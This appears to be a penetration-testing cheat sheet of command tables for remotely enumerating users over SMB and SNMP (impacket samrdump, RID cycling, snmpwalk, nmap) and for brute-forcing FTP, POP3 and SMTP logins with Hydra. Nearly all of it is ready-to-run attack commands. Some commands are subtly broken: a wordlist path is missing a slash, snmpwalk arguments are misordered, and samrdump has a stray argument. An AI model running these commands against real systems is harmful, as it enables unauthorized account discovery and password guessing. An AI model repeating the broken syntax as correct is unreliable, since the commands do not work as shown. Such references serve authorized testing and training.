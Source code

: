 Some techniques used to remotely enumerate users on a target system.

### SMB User Enumeration

| Command | Description |
| --- | --- |
| python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX | Enumerate users from SMB |
| ridenum.py 192.168.XXX.XXX 500 50000 dict.txt | RID cycle SMB / enumerate users from SMB |

### SNMP User Enumeration

| Command | Description |
| --- | --- |
| snmpwalk public -v1 192.168.X.XXX 1 \|grep 77.1.2.25 \|cut -d” “ -f4 | Enmerate users from SNMP |
| python /usr/share/doc/python-impacket-doc/examples/samrdump.py SNMP 192.168.X.XXX | Enmerate users from SNMP |
| nmap -sT -p 161 192.168.X.XXX/254 -oG snmp_results.txt (then grep) | Search for SNMP servers with nmap, grepable output |

## **Passwords**

### Wordlists

| Command | Description |
| --- | --- |
| /usr/share/wordlists | Kali word lists |

## **Brute Forcing Services**

### Hydra FTP Brute Force

| Command | Description |
| --- | --- |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX ftp -V | Hydra FTP brute force |

### Hydra POP3 Brute Force

| Command | Description |
| --- | --- |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 192.168.X.XXX pop3 -V | Hydra POP3 brute force |

### Hydra SMTP Brute Force

| Command | Description |
| --- | --- |
| hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp -V | Hydra SMTP brute force |

Use -t to limit concurrent connections, example: -t 15
